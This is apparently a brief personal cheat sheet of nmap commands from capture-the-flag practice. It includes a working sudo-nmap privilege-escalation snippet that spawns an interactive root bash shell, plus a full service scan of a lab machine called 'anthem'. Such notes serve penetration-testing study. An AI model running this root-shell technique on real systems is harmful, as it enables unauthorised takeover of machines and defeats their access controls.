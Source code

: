#used to gain root shell with nmap
TF=$(mktemp)
echo 'os.execute("/bin/bash -i")' > $TF
sudo nmap --script=$TF

#used on the anthem box
nmap -vv --reason -Pn -sV -sC --version-all 10.10.31.161

List of the Script engine scripts
```
ls /usr/share/nmap/scripts
```
